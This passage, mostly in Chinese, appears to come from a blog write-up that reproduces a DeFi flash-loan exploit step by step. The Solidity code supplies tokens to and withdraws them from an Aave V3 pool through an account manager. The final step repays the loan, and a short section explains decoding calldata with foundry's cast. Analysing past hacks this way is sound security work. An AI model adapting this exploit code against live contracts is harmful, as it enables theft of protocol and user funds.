 ```solidity
        accountManager.approve(address(accountAddress),address(USDC_e), address(aaveV3Pool), type(uint).max);
        accountManager.approve(address(accountAddress),address(USDT), address(aaveV3Pool), type(uint).max);
        accountManager.approve(address(accountAddress),address(WETH), address(aaveV3Pool), type(uint).max);

        accountManager.exec(address(accountAddress), address(aaveV3Pool), 0, abi.encodeWithSignature("supply(address,uint256,address,uint16)", address(USDC_e), 580_000 * 1e6, address(accountAddress), 0));
        accountManager.exec(address(accountAddress), address(aaveV3Pool), 0, abi.encodeWithSignature("supply(address,uint256,address,uint16)", address(USDT), 360_000 * 1e6, address(accountAddress), 0));
        accountManager.exec(address(accountAddress), address(aaveV3Pool), 0, abi.encodeWithSignature("supply(address,uint256,address,uint16)", address(WETH), 80 * 1e18, address(accountAddress), 0));
        accountManager.exec(address(accountAddress), address(aaveV3Pool), 0, abi.encodeWithSignature("withdraw(address,uint256,address)", address(USDC_e), type(uint).max, address(this)));
        accountManager.exec(address(accountAddress), address(aaveV3Pool), 0, abi.encodeWithSignature("withdraw(address,uint256,address)", address(USDT), type(uint).max, address(this)));
        accountManager.exec(address(accountAddress), address(aaveV3Pool), 0, abi.encodeWithSignature("withdraw(address,uint256,address)", address(WETH), type(uint).max, address(this)));

    }
```


### step5：归还闪电贷，攻击结束。
AaveV3 自己扣款，你approve即可。

```solidity
        WETH.approve(address(aaveV3Pool), amounts[1]+premiums[1]);
        USDC_e.approve(address(aaveV3Pool), amounts[2]+premiums[2]);
        WBTC.approve(address(aaveV3Pool), amounts[0]+premiums[0]);
```







# 五. 补充说明

## joinPool的data是怎么来的?
看phaIcon是一串很长的字节数组：

![image.png](https://img.learnblockchain.cn/attachments/2023/12/3BgvyDGB6579b7e6b96ee.png)

这个可以用foundry命令解析：
`cast 4byte-decode 0x.....`

效果如下：

红色框就是解析出来的结果，
![image.png](https://img.learnblockchain.cn/attachments/2023/12/hXfHW2WS6579b8ecb5037.png)
